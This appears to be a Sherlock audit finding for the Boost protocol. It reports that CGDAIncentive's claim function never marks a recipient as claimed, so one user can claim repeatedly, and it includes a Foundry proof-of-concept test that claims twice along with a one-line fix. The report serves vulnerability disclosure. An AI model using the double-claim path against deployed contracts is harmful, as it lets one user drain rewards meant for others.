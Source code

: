 Brave Watermelon Peacock

Medium

# CGDAIncentive can be claimed more than once

### Summary

Inside `CGDAIncentive.sol::claim()` it checks if it can be claimed `if (!_isClaimable(claimTarget)) revert NotClaimable();`.

```solidity
function _isClaimable(address recipient_) internal view returns (bool) {
    uint256 reward = currentReward();
    return reward > 0 && asset.balanceOf(address(this)) >= reward && !claimed[recipient_];
}
```

It checks with `!claimed[recipient_]`, but it is never set to `claimed` after the claim.
It can result that a user can multiple claim different assets if the action is NFT for example, but intented behaviour is to claim 1.

### Root Cause
[root cause](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/incentives/CGDAIncentive.sol#L85-#L100)

It should be making `claimed[claimTarget] = true` inside the function.

### Internal pre-conditions

1. Call `BoostCore.sol::claimIncentive()` with the correct calldata.
2. Claim more than once from the CGDAIncentive.

### External pre-conditions

_No response_

### Attack Path

1. Call `BoostCore.sol::claimIncentive()` with the correct calldata.
2. Claim more than once from the CGDAIncentive.

### Impact

The impact is that one user can claim more than once, but the intended behaviour is to claim once per user.
It's also bad experience for other users.

### PoC

Place the following functions inside `test/BoostCore.t.sol`

Add this import `import {CGDAIncentive} from "contracts/incentives/CGDAIncentive.sol";`

```solidity
function testClaimCGDAIncentiveTwice() public {
    // Create a Boost first
    bytes memory callData = LibZip.cdCompress(
        abi.encode(
            BoostCore.InitPayload({
                budget: budget,
                action: action,
                validator: BoostLib.Target({isBase: true, instance: address(0), parameters: ""}),
                allowList: allowList,
                incentives: _makeCGDAIncentive(),
                protocolFee: 500, // 5%
                referralFee: 1000, // 10%
                maxParticipants: 10_000,
                owner: address(1)
            })
        )
    );

    boostCore.createBoost(callData);

    // Prepare the data payload for validation
    uint256 tokenId = 1;
    uint256 tokenIdTwo = 2;
    mockERC721.mint{value: 0.1 ether}(address(this));
    mockERC721.mint{value: 0.1 ether}(address(this));
    mockERC721.mint{value: 0.1 ether}(address(this));

    // Prepare the data payload for validation
    bytes memory data = abi.encode(address(this), abi.encode(tokenId));
    bytes memory data2 = abi.encode(address(this), abi.encode(tokenIdTwo));

    // Claim the incentive
    boostCore.claimIncentive{value: 0.000075 ether}(0, 0, address(0), data);
    boostCore.claimIncentive{value: 0.000075 ether}(0, 0, address(0), data2);

    // Check the claims
    BoostLib.Boost memory boost = boostCore.getBoost(0);
    CGDAIncentive _incentive = CGDAIncentive(address(boost.incentives[0]));
    assertEq(_incentive.claims(), 2);
}

function _makeCGDAIncentive() internal returns (BoostLib.Target[] memory) {
    BoostLib.Target[] memory incentive = new BoostLib.Target[](1);

    incentive[0] = BoostLib.Target({
        isBase: true,
        instance: address(new CGDAIncentive()),
        parameters: abi.encode(
            CGDAIncentive.InitPayload({
                asset: address(mockERC20),
                initialReward: 10 ether,
                rewardDecay: 1 ether,
                rewardBoost: 1 ether,
                totalBudget: 100 ether
            })
        )
    });

    return incentive;
}
```

### Mitigation

Add `claimed[claimTarget] = true`.
This will mitigate the issue.

```diff
function claim(address claimTarget, bytes calldata) external virtual override onlyOwner returns (bool) {
    if (!_isClaimable(claimTarget)) revert NotClaimable();
    claims++;
+   claimed[claimTarget] = true;

    // Calculate the current reward and update the state
    uint256 reward = currentReward();
    cgdaParams.lastClaimTime = block.timestamp;
    cgdaParams.currentReward =
        reward > cgdaParams.rewardDecay ? reward - cgdaParams.rewardDecay : cgdaParams.rewardDecay;

    // Transfer the reward to the recipient
    asset.safeTransfer(claimTarget, reward);

    emit Claimed(claimTarget, abi.encodePacked(asset, claimTarget, reward));
    return true;
}
```